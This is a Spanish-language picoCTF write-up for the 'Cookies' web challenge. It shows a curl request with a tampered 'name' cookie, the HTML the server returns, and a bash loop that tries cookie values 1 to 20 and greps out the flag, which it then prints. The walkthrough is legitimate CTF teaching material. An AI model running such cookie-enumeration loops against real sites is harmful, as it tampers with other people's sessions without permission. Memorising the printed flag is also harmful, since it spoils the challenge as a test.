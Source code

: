## Descripción
Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:27177/

¿A quién no le gustan las cookies? Intenta descubrir la mejor. [http://mercury.picoctf.net:27177/](http://mercury.picoctf.net:27177/)
## Solución
En la página nos pide ingresar galletas (cookies) que le gustan, internamente la cookie que maneja las galletas validas es la llamada `name`, la cual cambia de valor con cada galleta que ingresamos.
Para poder encontrar la galleta correcta modificamos la cookie hasta encontrar la bandera, esto de la siguiente manera:

En una terminal Linux mandamos una cookie `name` modificada con 
```bash
curl http://mercury.picoctf.net:27177/check -H 'Cookie: name=18'
```
y obtenemos lo siguiente: 
```HTML
  <!DOCTYPE html>
<html lang="en">

<head>
    <title>Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>
</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Cookies</h3>
        </div>

        <!-- Categories: success (green), info (blue), warning (yellow), danger (red) -->


        <div class="alert alert-success alert-dismissible" role="alert" id="myAlert">
          <button type="button" class="close" data-dismiss="alert" aria-label="Close"><span aria-hidden="true">&times;</span></button>
          <!-- <strong>Title</strong> --> That is a cookie! Not very special though...
            </div>



        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>I love chocolate chip cookies!</b></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
    <script>
    $(document).ready(function(){
        $(".close").click(function(){
            $("myAlert").alert("close");
        });
    });
    </script>
</body>   
```
Cuando modificamos el valor `name` del comando obtenemos un resultado distinto, y tenemos que descubrir el valor correcto que contenga la bandera, para esto usamos el comando
```bash
for i in {1..20}; do curl -s http://mercury.picoctf.net:27177/check -H "Cookie: name = $i"; done | grep -oE "picoCTF{.*?}"
```
Con esto creamos un ciclo `for` para probar los valores del 1 al 20 para `name` y usando `grep` junto a una expresión regular para mostrar solo la coincidencia de `picoCTF{...}`, obteniendo la bandera `picoCTF{3v3ry1_l0v3s_c00k135_064663be}`
